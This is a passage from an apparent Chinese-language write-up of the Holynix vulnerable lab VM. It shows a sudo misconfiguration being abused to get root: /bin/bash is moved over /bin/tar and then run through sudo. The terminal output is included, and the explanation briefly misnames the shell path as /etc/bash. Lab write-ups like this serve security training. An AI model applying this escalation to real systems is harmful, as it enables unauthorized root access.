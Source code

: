     
    
    ```

-   查看权限并尝试提权

-   ```shell
    $ sudo -l
    User www-data may run the following commands on this host:
        (root) NOPASSWD: /bin/chown
        (root) NOPASSWD: /bin/chgrp
        (root) NOPASSWD: /bin/tar
        (root) NOPASSWD: /bin/mv
    
    $ which python
    /usr/bin/python
    $ python -c 'import pty;pty.spawn("/bin/bash")';
    www-data@holynix:/$ whoami
    whoami
    www-data
    www-data@holynix:/$ 
    
    ```

-   开始提权：

-   ```shell
    www-data@holynix:/$ sudo mv /bin/tar /bin/tar.bak
    sudo mv /bin/tar /bin/tar.bak
    www-data@holynix:/$ sudo mv /bin/bash /bin/tar
    sudo mv /bin/bash /bin/tar
    www-data@holynix:/$ sudo /bin/tar
    sudo /bin/tar
    root@holynix:/# ls
    ls
    bin   cdrom  etc   initrd      lib         media  opt   root  srv  tmp  var
    boot  dev    home  initrd.img  lost+found  mnt    proc  sbin  sys  usr  vmlinuz
    root@holynix:/# whoami
    whoami
    root
    root@holynix:/# uname -a
    uname -a
    Linux holynix 2.6.24-26-server #1 SMP Tue Dec 1 19:19:20 UTC 2009 i686 GNU/Linux
    root@holynix:/# ip a
    ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:bc:05:de brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.139/24 brd 192.168.2.255 scope global eth0
        inet6 fe80::20c:29ff:febc:5de/64 scope link 
           valid_lft forever preferred_lft forever
    root@holynix:/# 
    
    ```

-   **思路：使用`sudo mv ` 指令进行提权，此处先将tar命令给备份，然后使用move指令将系统级的shell也就是`/etc/bash`给替换到可以执行tar命令处,再执行tar命令，此时调用的已经是`/bin/bash`这个命令**
